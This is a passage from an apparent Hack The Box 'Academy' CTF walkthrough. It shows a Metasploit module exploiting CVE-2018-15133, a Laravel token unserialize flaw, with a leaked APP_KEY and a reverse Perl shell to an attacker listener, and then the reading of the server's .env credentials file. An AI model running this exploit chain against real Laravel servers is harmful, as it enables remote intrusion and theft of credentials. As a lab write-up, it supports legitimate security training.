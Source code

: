 ### CVE-2018-15133

From HTB official forum and because i had a laravel APP KEY, i tryed to expoit laravel token unserialize as per CVE-2018-15133. i ran metasploit with required options and got www-data reverse shell:

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > show options 

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.219     yes       The listen address (an interface may be specified)
   LPORT  4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic





www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

## User Flag

After some basic enumeration i found credentials under `.env` file:

```
www-data@academy:/var/www/html/academy$ cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
```